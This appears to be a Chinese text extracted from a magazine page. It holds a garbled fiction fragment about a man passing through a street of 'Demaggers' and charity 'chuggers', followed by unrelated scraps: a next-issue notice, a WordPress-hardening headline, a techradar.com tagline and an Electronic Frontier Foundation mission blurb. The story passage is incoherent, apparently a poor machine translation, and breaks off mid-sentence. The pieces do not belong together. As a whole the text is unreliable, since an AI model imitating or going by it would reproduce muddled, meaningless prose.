对于家具店式的居家生活，他确实正在改善。当他转入当地所谓的“勒索者巷”（Demaggers Alley）时，刀片慢了下来。这不仅是一条连接勒索者区南北的繁忙步行街。当地勒索者们要求民主；一些人强调“de”；另一些人强调他。格雷（Gray）告诉他那是民主的缩写，他青少年时期那些在周围转悠寻求慈善捐款的劫匪，即强制推销员（Chuggers）。无论它们的来源如何，身体和情感上想要快速通过都是困难的。他检查了手腕。调整了他的牙齿

# 下一期 6 月 28 日发售

锁定你的系统 | WordPress 加固

科技购买建议的源头
techradar.com

电子前疆基金会（EFF）是捍卫数字世界公民自由的领先非营利组织。EFF 成立于 1990 年，通过具有影响力的诉讼、政策分析、基层活动和技术开发来捍护用户隐私、自由表达和创新。我们致力于确保随着技术的使用增长，权利和自由得到增强和保护。

# EFF.ORG

## 电子前疆基金会 (ELECTRONIC FRONTIER FOUNDATION)

在电子前疆保护权利并促进自由
